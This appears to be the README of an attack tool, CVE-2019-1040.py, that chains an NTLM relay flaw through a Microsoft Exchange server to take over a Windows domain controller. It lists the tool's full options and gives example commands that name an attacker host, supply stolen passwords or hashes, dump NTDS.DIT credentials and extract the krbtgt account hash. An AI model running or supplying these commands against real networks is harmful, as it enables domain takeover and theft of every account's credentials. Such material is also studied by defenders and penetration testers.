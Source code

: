 # CVE-2019-1040

Great writeup! [Exploiting CVE-2019-1040 - Combining relay vulnerabilities for RCE and Domain Admin](https://dirkjanm.io/exploiting-CVE-2019-1040-relay-vulnerabilities-for-rce-and-domain-admin/) .

So, I wrote CVE-2019-1040.py for easy to use.

You can also check out my exchange2domain repo: https://github.com/ridter/exchange2domain, another way to use exchange to get DC.

## Requirements
These tools require [impacket](https://github.com/SecureAuthCorp/impacket). You can install it from pip with `pip install impacket`.

## Usage
```
usage: CVE-2019-1040.py [-h] [-u USERNAME] [-d DOMAIN] [-p PASSWORD]
                        [--hashes HASHES] [--smb-port [destination port]] -ah
                        ATTACKER_HOST [-ap ATTACKER_PORT] -th TARGET_HOST
                        [-t TIMEOUT]
                        [--exec-method [{smbexec,wmiexec,mmcexec}]]
                        [--just-dc-user USERNAME] [--debug]
                        EX_HOSTNAME

CVE-2019-1040 with Exchange

positional arguments:
  EX_HOSTNAME           Hostname/ip of the Exchange server

optional arguments:
  -h, --help            show this help message and exit
  -u USERNAME, --user USERNAME
                        username for authentication
  -d DOMAIN, --domain DOMAIN
                        domain the user is in (FQDN or NETBIOS domain name)
  -p PASSWORD, --password PASSWORD
                        Password for authentication, will prompt if not
                        specified and no NT:NTLM hashes are supplied
  --hashes HASHES       LM:NLTM hashes
  --smb-port [destination port]
                        Destination port to connect to SMB Server
  -ah ATTACKER_HOST, --attacker-host ATTACKER_HOST
                        Attacker hostname or IP
  -th TARGET_HOST, --target-host TARGET_HOST
                        Hostname or IP of the DC
  -t TIMEOUT, --timeout TIMEOUT
                        timeout in seconds
  --exec-method [{smbexec,wmiexec,mmcexec}]
                        Remote exec method to use at target (only when using
                        -use-vss). Default: smbexec
  --just-dc-user USERNAME
                        Extract only NTDS.DIT data for the user specified.
                        Only available for DRSUAPI approach.
  --debug               Enable debug output
```

example:
```
python CVE-2019-1040.py -ah attackterip -u user -p password -d domain.com -th DCip MailServerip 
python CVE-2019-1040.py -ah attackterip -u user --hashes userhash -d domain.com -th DCip MailServerip 
```


If you only want to dump `krbtgt`, use `--just-dc-user`.

example:
```
python CVE-2019-1040.py -ah attackterip -u user -p password -d domain.com -th DCip MailServerip  --just-dc-user krbtgt
python CVE-2019-1040.py -ah attackterip -u user --hashes userhash -d domain.com -th DCip MailServerip --just-dc-user krbtgt
```

![](pics/1560509768227.jpg)
